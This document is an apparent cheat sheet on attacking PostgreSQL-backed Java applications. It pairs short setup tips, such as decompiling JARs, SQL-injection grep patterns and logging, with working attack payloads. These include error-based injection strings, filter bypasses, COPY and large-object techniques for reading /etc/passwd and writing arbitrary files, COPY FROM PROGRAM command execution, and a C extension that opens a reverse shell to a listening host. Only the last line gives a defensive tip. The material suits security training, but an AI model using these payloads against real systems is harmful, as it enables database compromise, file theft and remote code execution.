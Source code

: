 ## Interacting with PostgreSQL

`psql -h <host> -U <username> <database>`

## Decompiling Java Archives

#### Fernflower

```bash
mkdir <OutputDirectory>
java -jar Fernflower.jar <Application>.jar <OutputDirectory>
cd <OutputDirectory>
jar -xf <Application>.jar
```

#### JD-GUI

`jd-gui <Application>.jar`

## Regex Patterns for Finding SQLi Vulnerabilities

```regex
SELECT|UPDATE|DELETE|INSERT|CREATE|ALTER|DROP
(WHERE|VALUES).*?'
(WHERE|VALUES).*" +
.*sql.*"
jdbcTemplate
```

## Live Debugging Java Applications

`java -Xdebug -Xrunjdwp:transport=dt_socket,address=8000,server=y,suspend=y -jar <Application>.jar`

## Enabling PostgreSQL Logging

`/etc/postgresql/13/main/postgresql.conf`
- Change `#logging_collector = off` to `logging_collector = on`
- `#log_statement = 'none'` to `log_statement = 'all'`
- Uncomment `#log_directory = '...'`
- Uncomment `#log_filename = '...'`

## Common Character Bypasses

- Use `/**/` instead of `space`
- Use `$$string$$` instead of `'string'`

## Error-Based SQL Injection

```sql
' and 0=CAST((SELECT VERSION()) AS INT)--
' and 1=CAST((SELECT table_name FROM information_schema.tables LIMIT 1) as INT)--
' and 1=CAST((SELECT STRING_AGG(table_name,',') FROM information_schema.tables LIMIT 1) as INT)--
';SELECT CAST(CAST(QUERY_TO_XML('SELECT ...',TRUE,TRUE,'') AS TEXT) AS INT)--
```

## Reading and Writing Files

#### Reading with COPY

```sql
CREATE TABLE tmp (t TEXT);
COPY tmp FROM '/etc/passwd';
COPY tmp FROM '/etc/hosts' DELIMITER E'\x07';
SELECT * FROM tmp;
DROP TABLE tmp;
```

#### Reading with Large Objects

```sql
SELECT lo_import('/etc/passwd');
SELECT lo_get(16513);
SELECT data FROM pg_largeobject WHERE loid=16513 AND pageno=0;
echo 726f6f743<SNIP> | xxd -r -p
```

#### Writing with COPY

```sql
CREATE TABLE tmp (t TEXT);
INSERT INTO tmp VALUES ('To hack, or not to hack, that is the question');
COPY tmp TO '/tmp/proof.txt';
DROP TABLE tmp;
```

#### Writing with Large Objects

```sql
split -b 2048 /etc/passwd
xxd -ps -c 99999999999 xaa
SELECT lo_create(31337);
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (31337, 0, DECODE('726f6f74<SNIP>6269','HEX'));
SELECT lo_export(31337, '/tmp/passwd');
SELECT lo_unlink(31337);
```

## Command Execution

#### RCE with COPY

```sql
CREATE TABLE tmp(t TEXT);
COPY tmp FROM PROGRAM 'id';
SELECT * FROM tmp;
DROP TABLE tmp;
```

#### RCE with Extensions

```bash
sudo apt install postgresql-server-dev-13
gcc -I$(pg_config --includedir-server) -shared -fPIC -o pg_rev_shell.so pg_rev_shell.c
nc -nvlp 443
```

```sql
CREATE FUNCTION rev_shell(text, integer) RETURNS integer AS '/tmp/pg_rev_shell', 'rev_shell' LANGUAGE C STRICT;
SELECT rev_shell('127.0.0.1', 443);
```

## Defending Against SQL Injection

Use `parameterized queries`!
